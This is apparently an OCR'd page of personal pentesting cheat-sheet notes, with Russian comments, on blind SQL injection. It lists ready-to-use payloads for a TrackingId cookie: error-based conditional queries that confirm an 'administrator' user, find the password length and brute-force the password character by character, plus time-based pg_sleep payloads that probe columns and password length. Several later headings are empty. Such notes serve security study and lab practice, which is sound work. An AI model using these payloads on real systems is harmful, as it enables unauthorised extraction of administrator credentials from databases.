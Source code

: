         - определение пользователя
        TrackingId=UauUD0CUhPTyX70v'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        
        - определеие длинны пароля
        '||(SELECT CASE WHEN LENGTH(password)=1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

        -перебор символов пароля
        '||(SELECT CASE WHEN SUBSTR(password,N,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

    # Time-Based Blind SQLi
        -определение колонок
        =as';SELECT CASE WHEN EXISTS(SELECT 1 FROM information_schema.columns WHERE table_name = 'products' AND column_name = 'id') THEN pg_sleep(5) ELSE pg_sleep(0) END--
        -определение длинны пароля 
        =x';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM+users-- 

    # Out-of-Band Blind SQLi

    # Second-Order SQLi
        
# No SQL injection

https://notes.incendium.rocks/pentesting-notes/web/injection/cypher-injection
